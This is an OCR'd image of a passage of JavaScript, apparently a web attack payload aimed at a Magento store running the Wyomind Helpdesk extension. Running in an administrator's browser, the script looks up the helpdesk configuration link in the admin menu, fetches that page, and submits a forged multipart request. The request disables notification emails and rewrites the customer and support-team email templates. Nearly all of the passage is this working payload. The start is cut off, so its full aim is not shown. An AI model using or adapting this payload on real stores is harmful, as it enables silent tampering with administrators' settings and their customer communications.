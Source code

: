 ```
	  "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][confirmation_content][value]\"\r\n" + 
	  "\r\n" + 
	  "Dear {{customer_firstname}},\x3cbr/\x3e\x3cbr/\x3e\r\n" + 
	  "Your message has been sent to the support team.\r\n" + 
	  "Here is the message content:\x3cbr/\x3e\r\n" + 
	  "\"{{message}}\" \x3cbr/\x3e\x3cbr/\x3e\r\n" + 
	  "Kind Regards,\r\n" + 
	  "The Support Team.\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][notification_enabled][value]\"\r\n" + 
	  "\r\n" + 
	  "0\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][notification_content][value]\"\r\n" + 
	  "\r\n" + 
	  "Hello {{customer_firstname}},\x3cbr/\x3e\x3cbr/\x3e\r\n" + 
	  "Your ticket \"{{ticket_object}}\" (#{{prefixed_id}}) has been updated.\r\n" + 
	  "Please login to your account via this link in order to see the new message: {{customer_account_link}}\x3cbr/\x3e\x3cbr/\x3e\r\n" + 
	  "Regards,\r\n" + 
	  "The Support Team.\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails_support_team_settings]\"\r\n" + 
	  "\r\n" + 
	  "0\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[emails][groups][support_team_settings][fields][notification_enabled][value]\"\r\n" + 
	  "\r\n" + 
	  "0\r\n" + 
	  "-----------------------------14303502862141221692667966053\r\n" + 
	  "Content-Disposition: form-data; name=\"groups[emails][groups][support_team_settings][fields][notification_content][value]\"\r\n" + 
	  "\r\n" + 
	  "You received a new message from a customer.\r\n" + 
	  "-----------------------------14303502862141221692667966053--\r\n";
	var aBody = new Uint8Array(body.length);
	for (var i = 0; i < aBody.length; i++)
	aBody[i] = body.charCodeAt(i); 
	xhr.send(new Blob([aBody]));
	}
	submitRequest();
}
	
var request = new XMLHttpRequest();  
request.onload = successListener;    
request.responseType = 'document';
request.open('GET', document.querySelector('[data-ui-id="menu-wyomind-helpdesk-configuration"]').querySelector('a').href, true);  
request.send();
</script> 
```
